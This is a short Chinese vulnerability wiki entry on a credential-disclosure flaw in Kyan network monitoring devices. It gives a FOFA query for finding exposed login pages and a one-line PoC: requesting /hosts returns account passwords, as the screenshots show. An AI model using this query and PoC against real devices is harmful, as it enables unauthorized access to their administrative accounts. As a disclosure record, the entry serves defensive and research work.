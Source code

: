 # Kyan 网络监控设备 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

> [!NOTE]
>
> Kyan

## FOFA

> [!NOTE]
>
> title="platform - Login"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ky-1.png)

POC

```
http://xxx.xxx.xxx.xxx/hosts
```

![](http://wikioss.peiqi.tech/vuln/ky-2.png)

成功获得账号密码

## Goby & POC

> [!NOTE]
>
> Kyan design account password disclosure

![](http://wikioss.peiqi.tech/vuln/ky-3.png)

## 参考文章

https://www.secquan.org/BugWarning/1071987